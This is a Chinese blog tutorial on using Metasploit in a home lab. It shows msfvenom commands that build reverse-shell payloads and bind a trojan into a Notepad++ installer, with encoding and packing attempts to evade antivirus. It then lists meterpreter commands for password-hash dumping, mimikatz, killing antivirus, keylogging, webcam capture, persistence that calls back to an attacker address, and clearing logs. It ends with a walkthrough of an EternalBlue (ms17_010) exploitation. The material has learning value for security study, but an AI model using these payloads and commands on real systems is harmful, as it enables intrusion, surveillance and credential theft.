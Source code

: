 ```yaml
---
title: Metasploit
tags:
  - web攻防
  - 工具使用
categories: web攻防
abbrlink: 1051313787
date: 2024-04-10 18:53:52
---
```


## Metasploit的免杀和基本使用

1、在kali里打开Metasploit，创建payload，输入`msfvenom -p windows/meterpreter/reverse_tcp lhost=*** lport=*** -f exe -o ***(保存的文件名字及后缀)`
<!--more-->
![](Metasploit/1.png)

![](Metasploit/2.png)
<br>

2、依次输入以下代码，以开启监听器
![](Metasploit/3.png)
<br>

3、通过共享文件（hello.exe），主机接受文件发现windows还是会查杀，于是思考对文件进行免杀

4、在kali里输入`msfvenom -l encoders`，得到编码列表。  
注意：这里不是所有的编码方式都可以在windows系统上使用，这里我们将使用x86/shikata_ga_nai，它是为数不多评级为excellent的编码
![](Metasploit/4.png)
<br>

5、我们使用notepad作为木马载体，把木马捆绑在程序上，以便木马的传播
![](Metasploit/5.png)
<br>

6、输入以下代码来将木马捆绑到notepad上：
```
msfvenom-p windows/shell_reverse_tcp lhost=192.168.255.130 lport=9000 
-e x86/shikata_ga_nai -x npp.7.9.Installer.exe -i 12 -f exe -o /home/kali/Desktop/npp.Installer.exe
```
这里解释一下其中的部分参数的含义：  
-e 指定编码方式对攻击载荷进行重新编码   
-x 指定木马捆绑在哪个可执行程序模版上   
-i 指定对目标进行编码的次数，多次编码理论上来讲有助于免杀   
-f 指定MSF编码器输出的程序的格式   
-o 指定处理完毕后的文件输出路径   
![](Metasploit/6.png)
<br>

7、启动python服务共享文件，发现还是会被查杀。

8、使用upx对文件进行加壳处理，但是还是不行
![](Metasploit/7.png)
<br>

9、使用多重编码试图实现免杀，并更改编码次数，甚至更改载体软件，但是最终都以失败告终。
![](Metasploit/8.png)

![](Metasploit/9.png)
<br>

10、于是只能关闭病毒实时查杀进行接下来的实验，免杀这一部分等后面再进行补充。

11、生成payload，并在本机上接受该exe
![](Metasploit/10.png)
<br>

12、输入shell切换到目标主机window cmd shell里面，chcp 65001 防止乱码，字符编码65001 是 utf-8，输入exit即可退出shell。
![](Metasploit/11.png)
<br>

13、从meterpreter退出到MSF框架：输入命令`background` 把我们获得的meterpreter会话挂载到后台运行。
![](Metasploit/12.png)
<br>

14、输入session -l（字母L）可以查看所有会话，如果要进入先前的会话，输入sessions -id即可
![](Metasploit/13.png)
<br>

15、常见命令：

	sysinfo             									#查看目标主机系统信息
	run scraper         									#查看目标主机详细信息
	run hashdump        									#导出密码的哈希
	load kiwi           									#加载mimikatz
	ps                  									#查看目标主机进程信息
	pwd                		 							    #查看目标当前目录(windows)
	getlwd              									#查看目标当前目录(Linux)
	search -f *.jsp -d e:\                					#搜索E盘中所有以.jsp为后缀的文件
	download  e:\test.txt  /root          					#将目标机的e:\test.txt文件下载到/root目录下
	upload    /root/test.txt d:\test      					#将/root/test.txt上传到目标机的 d:\test\ 目录下
	getpid             										#查看当前Meterpreter Shell的进程PID
	migrate 1384        									#将当前Meterpreter Shell的进程迁移到PID为1384的进程上
	idletime           		 								#查看主机运行时间
	getuid              									#查看获取的当前权限
	getsystem           									#提权,获得的当前用户是administrator才能成功
	run  killav        			 							#关闭杀毒软件
	screenshot          									#截图
	webcam_list         									#查看目标主机的摄像头
	webcam_snap         									#拍照
	webcam_stream       									#开视频
	execute 参数 -f 可执行文件   							   #执行可执行程序
	run getgui -u test1 -p Abc123456    					#创建test1用户，密码为Abc123456
	run getgui -e                							#开启远程桌面
	keyscan_start                							#开启键盘记录功能
	keyscan_dump                			 				#显示捕捉到的键盘记录信息
	keyscan_stop                 							#停止键盘记录功能
	uictl  disable  keyboard     							#禁止目标使用键盘
	uictl  enable   keyboard     							#允许目标使用键盘
	uictl  disable  mouse        							#禁止目标使用鼠标
	uictl  enable   mouse        							#允许目标使用鼠标
	load                        							#使用扩展库
	run				             							#使用扩展库
	 
	run exploit/windows/local/persistence lhost=192.168.100.132 lport=8888        #会自动连接192.168.100.132的8888端口，缺点是容易被杀毒软件查杀
	portfwd add -l 9999 -r 192.168.100.158 -p 3389     		                      #将192.168.11.13的3389端口转发到本地的9999端口上，这里的192.168.100.158是获取权限的主机的ip地址
	clearev                                                 #清除日志


16、进入shell输入`systeminfo`查看目标主机信息
![](Metasploit/14.png)
<br>

## 利用 ms17_010（永恒之蓝）攻击

17、在kali终端输入msfconsole进入Metasploit
![](Metasploit/15.png)
<br>

18、搜索ms17_010漏洞，找到四个模块，前两个是漏洞利用模块，后两个是辅助模块
![](Metasploit/16.png)
<br>

19、输入use auxiliary/scanner/smb/smb_ms17_010(或者输入use 3)使用Auxiliary辅助探测模块对漏洞进行探测；  
输入show options查看这个模块需要配置的信息
![](Metasploit/17.png)
<br>

20、设定好扫描192.168.225.100到192.168.225.200  
`注：RHOSTS 参数是要探测主机的ip或ip范围，我们探测一个ip范围内的主机是否存在漏洞`  
发现192.168.225.136主机存在永恒之蓝漏洞（我先前打开了一个有该漏洞的虚拟机在同一网段）
![](Metasploit/18.png)

![](Metasploit/19.png)

![](Metasploit/20.png)
<br>

21、使用exploit模块漏洞进行攻击
![](Metasploit/21.png)
<br>

22、设置攻击载荷和必要参数，输入exploit进行攻击，攻击成功！
![](Metasploit/22.png)

![](Metasploit/23.png)
<br>

23、输入getuid查看当前权限，得知当前是最高权限
![](Metasploit/24.png)
<br>

24、接下来是后渗透阶段，尝试上传文件到目标主机：upload 本机路径 上传目标路径  
上传成功，到目标主机里查看文件确认。
![](Metasploit/25.png)

![](Metasploit/26.png)
<br>